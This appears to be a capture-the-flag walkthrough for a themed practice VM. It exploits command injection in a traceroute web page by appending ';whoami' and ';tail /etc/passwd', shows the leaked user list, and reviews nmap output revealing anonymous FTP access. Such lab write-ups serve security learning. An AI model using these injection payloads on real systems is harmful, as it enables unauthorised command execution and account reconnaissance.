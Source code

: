 Entering an IP address returns the route being traced by the console on the other end of this webpage. Here is an example:

```bash
traceroute to 1.1.1.1 (1.1.1.1), 30 hops max, 60 byte packets
 1  gateway (10.0.2.1)  0.093 ms  0.085 ms  0.060 ms
```

Running other commands such as `ls` does not work as the page only allows `traceroute` commands through.

But maybe we can trick the console by running multiple commands at once. We can accomplish this by separating commands with a semicolon. Lets test it out by inputting `;whoami`.

On the webpage we get `apache` returned.

Knowing we can send other commands now, and knowing that the **apache** user is limited, lets try and find what other users are on this machine.

```bash
;tail /etc/passwd
```
```
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit-ws:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
chrony:x:995:993::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
RickSanchez:x:1000:1000::/home/RickSanchez:/bin/bash
Morty:x:1001:1001::/home/Morty:/bin/bash
Summer:x:1002:1002::/home/Summer:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
```

We can see that the user accounts on this machine are `RickSanchez`, `Morty`, `Summer`, and `apache`.

## Analyzing Nmap Scan

Lets take a look at the nmap scan again and see what other information we can gather from the open ports on this machine.

We know that port 21 is open and running vsftpd 3.0.3, but it looks like nmap has found out that Anonymous FTP login is currently being allowed on that port as well.

```bash
PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0              42 Aug 22  2017 FLAG.txt
|_drwxr-xr-x    2 0        0               6 Feb 12  2017 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.0.2.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
```
